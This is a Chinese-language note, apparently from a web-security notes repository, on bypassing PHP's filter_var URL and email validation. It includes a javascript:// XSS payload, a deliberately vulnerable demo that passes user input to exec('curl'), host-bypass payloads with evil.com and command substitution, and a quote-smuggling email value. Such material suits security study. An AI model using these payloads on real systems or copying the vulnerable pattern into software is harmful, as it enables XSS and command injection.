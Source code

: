 ## filter_var
filter_var — 使用特定的过滤器过滤一个变量



函数结构：
```
filter_var ( mixed $variable [, int $filter = FILTER_DEFAULT [, mixed $options ]] ) : mixed
```
### `FILTER_VALIDATE_URL`
参考：
- https://secure.php.net/manual/zh/function.filter-var.php
- https://www.anquanke.com/post/id/101058

**javascript**  
`filter_var('javascript://comment%250Aalert(1)', FILTER_VALIDATE_URL);`会导致XSS攻击。因为//在JavaScript中表示单行注释，%250a解码后为换行符，所以alert(1)和//不在一行，就可以执行。

demo
```php
<?php
$url = filter_var($_GET['url'],FILTER_VALIDATE_URL);
var_dump($url);
$url=htmlspecialchars($url);
var_dump($url);
echo "<a href='$url'>Next slide </a>";
```


**网址**  
在如下脚本中：
```php
<?php
   $url = $_GET['url'];
   echo "Argument: ".$url."\n";
   if(filter_var($url, FILTER_VALIDATE_URL)) {
      $r = parse_url($url);
      var_dump($r);
      if(preg_match('/skysec\.top$/', $r['host'])) {
         exec('curl -v -s "'.$r['host'].'"', $a);
      } else {
         echo "Error: Host not allowed";
      }
   } else {
      echo "Error: Invalid URL";
   }
?>
```
以前可用payload：
```
?url=0://evil.com:23333;skysec.top:80/
?url=0://evil$skysec.top
```

但是19-7-1日测试会报错如下：
```
Argument: 0://192.168.1.112:82,skysec.top:80/
C:\Users\j7ur8\Desktop\html\index.php:6:
array(4) {
  'scheme' =>
  string(1) "0"
  'host' =>
  string(27) "192.168.1.112:82,skysec.top"
  'port' =>
  int(80)
  'path' =>
  string(1) "/"
}
* Rebuilt URL to: 192.168.1.112:82,skysec.top/
* Port number ended with ','
* Closing connection -1
```

### `FILTER_VALIDATE_EMAIL`
参考：
- https://www.leavesongs.com/PENETRATION/some-tricks-of-attacking-lnmp-web-application.html#0x03-filter_validate_email
- https://stackoverflow.com/questions/19220158/php-filter-validate-email-does-not-work-correctly

绕过方法为：`"Joe'Blow"@example.com`，逃逸了单引号。
```php
<?php
$email = '"Joe\'Blow"@example.com';
if (filter_var($email, FILTER_VALIDATE_EMAIL))
        var_dump(filter_var($email, FILTER_VALIDATE_EMAIL));
else
        echo "email not correct";

//C:\Users\j7ur8\Desktop\test.php:4:string(22) ""Joe'Blow"@example.com"
?>
```
